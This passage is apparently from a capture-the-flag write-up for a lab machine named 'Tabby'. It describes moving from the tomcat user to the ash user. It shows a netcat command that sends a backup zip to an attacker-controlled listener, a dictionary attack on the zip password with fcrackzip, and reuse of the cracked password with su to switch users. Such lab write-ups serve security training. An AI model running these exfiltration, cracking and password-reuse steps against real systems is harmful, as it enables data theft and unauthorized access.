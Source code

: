 Now we are tomcat user and next we need to get the "ash" user. So now I perform the basic piv esc methods without any luck. Only option left is look around for juicy files. I spent good amount of time here too. 

Lets skip my frustration and get right to the main point. The only file I could find that belonged to the user ash was a password protected zip file. So I download it to my machine using a fancy trick I learned recently. Take a look.

```
tomcat@tabby:/var/www/html/files$ ls -al
ls -al
total 36
drwxr-xr-x 4 ash  ash  4096 Jun 17 21:59 .
drwxr-xr-x 4 root root 4096 Jun 17 16:24 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16 13:42 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Jun 16 20:13 archive
drwxr-xr-x 2 root root 4096 Jun 16 20:13 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16 11:25 statement

tomcat@tabby:/var/www/html/files$ nc YourIP 5678 < 16162020_backup.zip

nc -lvnp 5678 > backup.zip
```

The second last line is to be executed on the target machine and the last line is for our attacking machine. 

Now we have the zip file I try to crack it using a new tool called fcrackzip.

```
fcrackzip -D -u -v -p  ~/tools/rockyou.txt backup.zip
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon09                                

PASSWORD FOUND!!!!: pw == admin@it
admin@it
```

-D is to use wordlist attack, -v is for verbose output, -p is for giving it a wordlist and -u is used to unzip using the unzip command.

We now have the password for the zip file. When I extract it I don't find anything valuable **but** we do have a password now so lets try it to change our user to ash. 

```
tomcat@tabby:/var/www/html/files$ su ash                              
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ whoami
whoami
ash
ash@tabby:/var/www/html/files$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```
